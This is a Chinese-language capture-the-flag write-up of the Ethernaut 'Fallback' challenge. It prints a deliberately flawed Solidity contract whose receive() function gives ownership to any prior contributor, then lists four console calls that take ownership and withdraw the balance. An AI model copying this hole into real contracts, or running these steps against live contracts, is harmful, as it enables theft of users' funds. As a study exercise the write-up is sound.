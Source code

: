 #### 题目
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    //公共映射，记录了每个地址捐赠的金额
    mapping(address => uint256) public contributions;
    //公开地址变量，记录合约的拥有者的地址
    address public owner;
    
    //构造函数，合约部署时自动执行，合约部署者设置为初始拥有者。
    //给予部署者 1000 ether 的初始贡献
    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    //修饰器确保只有合约拥有者才能执行某些函数,否则弹出提示
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    //捐赠函数，1.require条件为假时，交易回滚，msg.value是随当前交易发送的ETH数量
    //2.更新调用者的捐赠总额
    //3.如果调用者贡献超过当前拥有者，则调用者成为拥有者
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    //允许用户查看自己的贡献总额
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    //只有拥有者可以提现，将所有ETH转移到拥有者
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    //receive函数，接收ETH时触发，要求数量大于0，且之前有捐赠者；调用者成为合约拥有者。
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

#### 解题思路

很明显，漏洞在contribute函数，但数量要超过1000ETH，且每次发送小于0.001，实现起来不现实  
那么只能通过receive（）来实现，即直接转账且不附加任何数据  

#### 解题过程  
1.contract.contribute({value: 1}) //首先使贡献值大于0  
2.contract.sendTransaction({value: 1}) //触发fallback函数  
3.contract.owner（）//查看合约拥有者  
4.contract.withdraw() //提现到自己的地址  
